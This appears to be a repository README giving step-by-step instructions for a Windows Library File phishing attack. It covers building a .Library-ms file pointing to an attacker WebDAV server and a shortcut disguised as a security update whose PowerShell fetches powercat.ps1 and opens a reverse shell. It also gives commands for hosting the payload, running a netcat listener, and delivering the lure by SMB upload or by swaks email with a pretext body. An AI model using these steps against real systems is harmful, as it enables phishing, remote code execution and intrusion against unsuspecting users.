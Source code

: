 This repo contains instructions on how to perform a Windows Library File phishing attack.

## Creating Windows Library File

This file, once opened, will point the target machine to our WebDAV server (more on this later). In order to create this file we will execute either of the `winlib_gen` scripts included in this repo.

## Creating a Malicious Shortcut File

Then we will need to create a shortcut file (*this needs to be done on a Windows Machine*):

- On a Windows machine: *right click on the desktop and select new -> shortcut*.

- *Insert the powershell commands* that `winlib_gen` prints *in the location field*.

This command will *request and invoke `powercat.ps1` from an address where we will be hosting it and then connect to our listener with a reverse shell*.

- Name the shortcut file whatever name is appropriate for your context (example security_update).

## Serving the Files

- We will *transfer the shortcut file to a folder in Kali and host it using WebDAV*:

```bash
wsgidav --host 192.168.45.187 --port 80 --auth anonymous --root .
```

- We will start a *Python3 HTTP server and host powercat.ps1*:

```bash
python3 -m http.server
```

- We will *start a netcat listener to catch the shell*:

```bash
nc -nlvp 4444
```

## Sending the Library File

### SMB - smbclient

We can now transfer `config.Library-ms` via smbclient to the target share and hopefully some user will open the file:

```bash
smbclient //192.168.50.195/sharename -c 'put config.Library-ms' -U 'user%pass'
```

If a user opens the file, we will get a reverse shell.

### Email - swaks

We can send a malicious email using the command-line SMTP tool `swaks`.

- This repo contains a *body.txt file containing an example pretext to encourage the victim* to open the attached library file.

- Then we build our swaks command:

```bash
sudo swaks -t user@domain.com -t user@domain.com --from user@domain.com --attach @config.Library-ms --server {Mailserver IP} --body @body.txt --header "Subject: Announcement" --suppress-data -ap
Username: user
Password: password
```

When our victim finally opens the malicious file, our WebDAV and Python3 servers will receive requests and our listener will grab a shell.
